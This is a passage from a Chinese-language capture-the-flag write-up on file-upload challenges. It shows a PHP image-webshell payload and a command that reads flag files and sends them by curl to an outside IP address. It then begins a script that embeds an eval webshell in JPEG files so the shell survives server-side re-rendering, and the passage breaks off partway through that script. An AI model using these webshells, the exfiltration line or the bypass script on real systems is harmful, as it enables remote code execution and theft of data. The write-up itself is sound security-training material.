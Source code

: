 ```
图片马的内容 <?$_GET[0]($_POST[1]);?>
```

没有回显

外带读flag

```
POST 1=cat f* | curl -X POST -d @- http://106.55.168.231:7777/
GET 0=system
```



#### web165

这题考察的也是图片马，但是是用jpg的图片马绕过二次渲染

大佬的脚本

```php
<?php
    /*

    The algorithm of injecting the payload into the JPG image, which will keep unchanged after transformations caused by PHP functions imagecopyresized() and imagecopyresampled().
    It is necessary that the size and quality of the initial image are the same as those of the processed image.

    1) Upload an arbitrary image via secured files upload script
    2) Save the processed image and launch:
    jpg_payload.php <jpg_name.jpg>

    In case of successful injection you will get a specially crafted image, which should be uploaded again.

    Since the most straightforward injection method is used, the following problems can occur:
    1) After the second processing the injected data may become partially corrupted.
    2) The jpg_payload.php script outputs "Something's wrong".
    If this happens, try to change the payload (e.g. add some symbols at the beginning) or try another initial image.

    Sergey Bobrov @Black2Fan.

    See also:
    https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/

    */
		
    $miniPayload = "<?=eval(\$_POST[7]);?>"; //注意$转义


    if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
        die('php-gd is not installed');
    }

    if(!isset($argv[1])) {
        die('php jpg_payload.php <jpg_name.jpg>');
    }

    set_error_handler("custom_error_handler");

    for($pad = 0; $pad < 1024; $pad++) {
        $nullbytePayloadSize = $pad;
        $dis = new DataInputStream($argv[1]);
        $outStream = file_get_contents($argv[1]);
        $extraBytes = 0;
```